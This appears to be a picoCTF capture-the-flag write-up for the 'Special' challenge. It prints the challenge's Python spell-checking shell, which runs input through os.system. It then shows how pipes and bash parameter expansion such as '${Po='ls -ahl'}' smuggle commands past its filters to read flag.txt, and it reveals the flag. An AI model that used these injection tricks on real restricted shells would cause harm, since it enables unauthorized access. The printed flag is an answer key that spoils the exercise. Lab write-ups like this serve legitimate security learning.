 ```yaml
---
tags:
  - Linux-Commands
  - bash
created: 2023-11-15
last_modified_at: 2024-02-02
---
```

# Special
---
### Description
---
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.

Additional details will be available after launching your challenge instance.
### Hints
---

> [!hint]- Hint(s)
> 1.  In shell scripting, including bash, the construct ${parameter='default'} is used for parameter expansion with a default value. Let me break down its components: ${parameter}: This is the basic form of parameter expansion. It allows you to reference the value of a variable named parameter. 'default': This is the default value that will be assigned to the variable if parameter is not set or is null.

### Step(s)
---
1. first we can check what the script is by finding where the file is by just hitting enter and you will get the response of 
```sql
Traceback (most recent call last):
  File "/usr/local/Special.py", line 19, in <module>
    elif cmd[0] == '/':
IndexError: string index out of range
Connection to saturn.picoctf.net closed.
```
This tells us that the script is located at '/usr/local/Special.py'

2.  if you use a pipe you can use the cat command example:
```python
Special$ d | cat /usr/local/Special.py
I | cat /usr/local/Special.py 
sh: 1: I: not found
#!/usr/bin/python3

import os
from spellchecker import SpellChecker



spell = SpellChecker()

while True:
  cmd = input("Special$ ")
  rval = 0
  
  if cmd == 'exit':
    break
  elif 'sh' in cmd:
    print('Why go back to an inferior shell?')
    continue
  elif cmd[0] == '/':
    print('Absolutely not paths like that, please!')
    continue
    
  # Spellcheck
  spellcheck_cmd = ''
  for word in cmd.split():
    fixed_word = spell.correction(word)
    if fixed_word is None:
      fixed_word = word
    spellcheck_cmd += fixed_word + ' '

  # Capitalize
  fixed_cmd = list(spellcheck_cmd)
  words = spellcheck_cmd.split()
  first_word = words[0]
  first_letter = first_word[0]
  if ord(first_letter) >= 97 and ord(first_letter) <= 122:
    fixed_cmd[0] = chr(ord(spellcheck_cmd[0]) - 0x20)
  fixed_cmd = ''.join(fixed_cmd)
  
  try:
    print(fixed_cmd)
    os.system(fixed_cmd)
  except:
    print("Bad command!")
```

3. Seeing this we can set a parameter to a linux command. for example:
```bash
Special$ ${Po='ls -ahl'}
${Po='ls -ahl'} 
total 0
drwxr-xr-x 1 ctf-player ctf-player 20 Nov 15 19:29 .
drwxr-xr-x 1 root       root       24 Mar 16  2023 ..
drwx------ 2 ctf-player ctf-player 34 Nov 15 19:29 .cache
drwxr-xr-x 2 ctf-player ctf-player 22 Mar 16  2023 blargh
```

4. When checking what is in the 'blargh' folder we find the flag.txt file
```ruby
Special$ ${Po='ls -ahl blargh'}
${Po='ls rahl blargh'} 
ls: cannot access 'rahl': No such file or directory
blargh:
flag.txt
```

5. Getting the flag is as easy as piping the cat command to it now
```bash
Special$ a | cat blargh/flag.txt
A | cat blargh/flag.txt 
sh: 1: A: not found
picoCTF{xxxxxxxxxxxxxxxxxxxx}Special$
```

<details>
  <summary><h2>Flag</h2><hr></summary>picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335}
</details>